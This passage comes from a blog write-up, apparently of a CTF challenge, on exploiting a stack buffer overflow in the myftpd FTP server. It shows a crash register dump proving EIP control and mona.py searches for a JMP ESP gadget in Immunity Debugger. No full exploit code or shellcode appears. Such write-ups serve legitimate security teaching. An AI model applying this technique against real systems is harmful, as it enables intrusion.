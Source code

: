 ``` python
pwn(command)
```

Running this command gives us the following register content when crashed:

``` txt
EAX 00000000
ECX 0024CF98
EDX 00000031
EBX 41414141
ESP 00B5FFC0 ASCII "DDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE"
EBP 41414141
ESI 41414141
EDI 41414141
EIP 42424242
```

Our offsets are spot on. Next we need to find an address that we can use to overwrite ESP with. Preferably we'll use a `JMP ESP` instruction instead of the other options because this will not modify the content of memory around `ESP` (which would be bad in case it overwrites stuff that's important to us). Here we'll use **Mona.py** within immunity to give us a list of addresses that we can use.

Ideally our exploit would not be tied to a given platform, so we would ultimately like to find an address which isn't tied to any Windows DLLs. We start by searching for jump instructions within the `myftpd` process itself because we know this will translate across platforms:

``` txt
!mona jmp -r ESP -m myftpd
```

Unfortunately for us, all we get is:

``` txt
           ---------- Mona command started on 2014-02-28 22:29:14 (v2.0, rev 427) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D       - Only querying modules myftpd
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 1 modules
0BADF00D       - Querying module myftpd.exe
0BADF00D       - Search complete, processing results
0BADF00D   [+] Preparing output file 'jmp.txt'
0BADF00D       - (Re)setting logfile jmp.txt
0BADF00D       Found a total of 0 pointers
0BADF00D
           [+] This mona.py action took 0:00:00.265000
```

There are no addresses in the executable which we can use to redirect control to `ESP`. So we have to look further. We instead let Monay go nuts on all the modules:

``` txt
!mona jmp -r ESP
```


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux